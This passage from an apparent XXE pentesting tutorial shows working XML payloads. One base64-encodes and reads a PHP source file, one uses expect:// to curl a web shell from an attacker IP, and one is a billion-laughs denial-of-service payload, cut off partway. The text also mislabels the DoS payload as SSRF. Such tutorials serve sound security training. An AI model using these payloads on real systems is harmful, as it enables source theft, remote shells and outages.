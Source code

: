 As we can see, this did not work, as we did not get any content. This happened because the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity.

If a file contains some of XML's special characters (e.g. \</>/&), it would break the external entity reference and not be used for the reference

So we can base64 encode:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

<figure><img src="../../.gitbook/assets/XXE(XML External Entity)-8.png" alt=""><figcaption></figcaption></figure>

### Remote Code Execution

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

**Note:** We replaced all spaces in the above XML code with **$IFS**, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.

### Other XXE Attacks

Another common attack often carried out through XXE vulnerabilities is SSRF exploitation. This causes DOS

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
```